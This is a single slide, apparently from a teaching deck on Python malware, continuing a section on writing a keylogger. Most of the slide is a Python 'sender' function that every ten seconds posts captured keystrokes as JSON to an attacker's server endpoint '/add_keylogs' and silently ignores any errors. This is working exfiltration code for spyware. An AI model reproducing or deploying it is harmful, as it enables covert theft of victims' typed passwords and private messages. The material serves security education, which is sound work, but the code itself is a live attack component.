

Python Malwares (cont.)
Writing a Keylogger (cont.)
The sender function will send the captured data to the attacker’s server (webserver in this case) every 10 seconds.
def sender(host):
    global keylogger_result
    while True:
        sleep(10)
        if(keylogger_result):
            try:
                post(f"http://{host}/add_keylogs", json=keylogger_result)
                keylogger_result = {}
            except:
                pass
135